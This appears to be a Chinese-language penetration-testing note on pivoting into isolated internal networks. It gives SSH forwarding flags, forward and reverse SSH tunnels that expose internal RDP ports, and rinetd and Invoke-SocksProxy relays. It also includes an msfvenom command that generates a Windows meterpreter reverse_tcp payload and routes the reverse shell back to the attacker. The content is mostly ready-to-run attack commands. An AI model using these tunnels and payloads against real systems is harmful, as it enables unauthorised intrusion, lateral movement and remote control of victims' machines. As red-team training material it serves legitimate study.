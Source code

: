 #### SSH
	-C 压缩传输，加快传输速度
	-f 在后台对用户名密码进行认证
	-N 仅仅只用来转发，不用再弹回一个新的shell -n 后台运行
	-q 安静模式，不要显示任何debug信息
	-l 指定ssh登录名
	-g 允许远程主机连接到本地用于转发的端口
	-L 进行本地端口转发
	-R 进行远程端口转发
	-D 动态转发，即socks代理
	-T 禁止分配伪终端
	-p 指定远程ssh服务端口
#### 正向转发
	外网靶机110
	内网靶机115
	本地攻击机编辑后restart ssh服务
	#vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	>ssh -C -f -N -g -L 33890:192.168.0.115:3389 root@192.168.0.110 -p 22
	本地攻击机执行，本地33890转发到远程的3389端口
	上线MSF
	攻击机?出网Linux靶机--不出网Linux靶机--不出网win机
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=不出网Linux机 lport=12138 -f exe -o /var/www/html/1.exe
	攻击机监听端口12345
	不出网Linux机
	>ssh -C -f -N -g -L 0.0.0.0:12138:攻击机:12345 root@出网Linux主机 -p 22
#### 反向转发
	外网攻击107
	内网靶机97
	出网靶机编辑后restart ssh服务
	#vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	>ssh -C -f -N -g -R 33890:10.1.1.97:3389 root@192.168.0.107 -p 22
	出网靶机执行，把外部攻击机33890转发到内部隔离网络的3389
	>netstat –tnlp
![image](/assets/Pentest_Note/master/img/165.png)

	转发成功，外网攻击机安装apt install rinetd(正向tcp转发工具)
	>vim /etc/rinetd.conf
	添加0.0.0.0 3389 127.0.0.1 33890
	>service rinetd start
![image](/assets/Pentest_Note/master/img/166.png)

	看到107是kali攻击机，连接107:33890即可到达内网10.1.1.97的桌面
![image](/assets/Pentest_Note/master/img/167.png)
### Invoke-SocksProxy
	https://gitee.com/RichChigga/Invoke-SocksProxy
	>Import-Module .\Invoke-SocksProxy.psm1 
	>Invoke-SocksProxy -bindPort 12138 建立socks代理，使用代理软件连接
![image](/assets/Pentest_Note/master/img/168.png)
![image](/assets/Pentest_Note/master/img/169.png)
